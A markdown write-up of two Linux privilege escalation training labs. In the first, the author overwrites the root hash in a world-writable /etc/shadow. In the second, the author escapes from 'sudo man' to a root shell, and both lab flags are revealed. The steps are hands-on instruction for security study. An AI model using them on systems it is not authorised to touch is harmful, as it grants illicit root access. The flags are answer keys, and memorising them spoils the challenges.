









# 🔬Linux Privilege Escalation

## Lab 1

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find specific **Linux Privilege escalation vulnerabilities manually**
> - Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration



### Misconfigured Permissions Files

- Look for **world writable files**
  - *Find a file that could help to elevate privileges*

```bash
find / -not -type l -perm -o+w
```



> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```



### Privilege Escalation

- `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password123
	$1$abc$UWUoROXzUCsLsVzI0R2et.

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```



- Switch to the `root` user

```bash
su
# type "password123" password for "root" user

cd
ls
cat flag
```


<details>
<summary>Reveal Flag: 🚩</summary>


`e62ab67ddff744d60cbb6232feaefc4d`



</details>

------

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find **misconfigured `sudo` privileges**

### Local Enumeration


### Misconfigured SUDO Privileges

- Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```



> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

- Identify what commands the `student` user can run

```bash
sudo -l
```



> ❗ **`/usr/bin/man`** binary can be run ***with `SUDO` privileges, without providing a `root` user password***

- This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks *harmless*, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation

```bash
sudo man ls
```

- In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```



- Retrieve the flag with the **`root`** user


<details>
<summary>Reveal Flag: 🚩</summary>


`74f5cc752947ec8a522f9c49453b8e9a`



</details>

------

